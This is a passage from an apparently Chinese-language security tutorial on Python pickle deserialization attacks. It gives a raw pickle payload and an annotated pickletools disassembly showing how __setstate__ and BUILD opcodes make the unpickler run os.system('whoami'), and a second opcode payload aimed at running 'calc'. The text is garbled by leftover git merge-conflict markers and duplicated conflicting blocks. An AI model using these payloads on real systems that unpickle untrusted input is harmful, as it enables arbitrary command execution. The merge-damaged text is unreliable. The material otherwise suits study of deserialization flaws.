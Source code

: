 ```plain
b'c__main__\ns1nk\n)\x81}X\x0C\x00\x00\x00__setstate__cos\nsystem\nsbX\x06\x00\x00\x00whoamib.'
```

用 pickletools 看一下过程。

```bash
0: c    GLOBAL     '__main__ s1nk' #引入一个模块
   15: )    EMPTY_TUPLE   #压入一个空元组
   16: \x81 NEWOBJ        #创建一个 c 引入模块的实例，并以元组作为传入的元素
   17: }    EMPTY_DICT    #压入一个空字典
   18: X    BINUNICODE '__setstate__'  #压入一个字符串"__setstate__”
   35: c    GLOBAL     'os system'     #压入一个 os.system 模块
   46: s    SETITEM                    #弹出两个元素，分别作为 value 和 key，再取当前栈顶元素为 dict,dict[key]=value
   47: b    BUILD                      #实例没有__setstate__属性，那么就把字典的键值对赋给实例
   48: X    BINUNICODE 'whoami'        #压入字符串"whoami”
   59: b    BUILD                      #实例有__setstate__属性，执行了 os.system(whoami)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
   60: .    STOP
highest protocol among opcodes = 2
```

<<<<<<< HEAD
```plain
c__main__
name
}(S"__setstate__"    # } 压入空dict __setstate__，然后 c push进去我们的 os.system
cos
system
ubS"calc"  # 执行第一次 b ，因为现在并没有 b ，所以执行 __dict__.update，也就是将我们前面的 {"__setstate__":os.system} 压入栈
=======
```bash
c__main__
name
}(S"__setstate__"    # } 压入空 dict __setstate__，然后 c push 进去我们的 os.system
cos
system
ubS"calc"  # 执行第一次 b，因为现在并没有 b，所以执行 __dict__.update，也就是将我们前面的 {"__setstate__":os.system} 压入栈
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
b.         # 再次执行 b 由于已经有了__setstate__，所以会将栈中字节码 b 的前一个元素当作 state，执行__setstate__(state)，
```

这个 payload 看似是可行的，但是具体运行时会报错 `TypeError: 'mappingproxy' object does not support item assignment`.

在 Python 中，使用 `class.__dict__`调用一个类的属性会返回一个不可变字典 (mappingproxy), 如果对这个字典进行更新就会报错。那么第一个 payload 为什么能用呢？？

> 所有实例属性都存储在 **dict** 字典中，这就是一个常规的 dict，对于实例属性的维护即是从该字典中获取和修改
> 
<<<<<<< HEAD
> 类属性使用的字典是一个 MappingProxyType 对象，它是一个不能 setattr 的字典。这意味着它对开发者是只读的.

也就是说，我们只能修改一个实例的 `inst.__dict__`, 而不能修改一个类的 `class.__dict__`.

重点关注 `\x81` 这个操作符。这个 payload 通过 `\x81` 操作符对 `c` 引入的`__main__.s1nk` 实例化，进而实现了对`__main__.s1nk` 一个实例的属性的修改.
=======
> 类属性使用的字典是一个 MappingProxyType 对象，它是一个不能 setattr 的字典。这意味着它对开发者是只读的。
